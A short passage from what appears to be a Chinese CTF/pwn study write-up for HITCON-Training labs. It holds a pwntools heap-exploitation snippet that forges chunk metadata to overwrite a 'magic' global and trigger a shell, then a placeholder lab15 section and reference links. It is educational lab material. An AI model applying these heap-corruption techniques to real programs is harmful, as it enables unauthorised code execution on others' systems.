 ```python
delete(0)
magic = 0x6020C0
p = 'a'*0x30 + p64(0) + p64(0x91) + p64(0) + p64(magic - 0x10)
edit(1, 0x50, p)
create(0x80, 'e') #0
r.recvuntil('Your choice :')
r.sendline('4869')

r.interactive()
```



# lab15

C++ pwn

以后写





# 参考链接

链接：https://github.com/scwuaptx/HITCON-Training

配套的学习视频：https://www.youtube.com/user/scwuaptx/videos


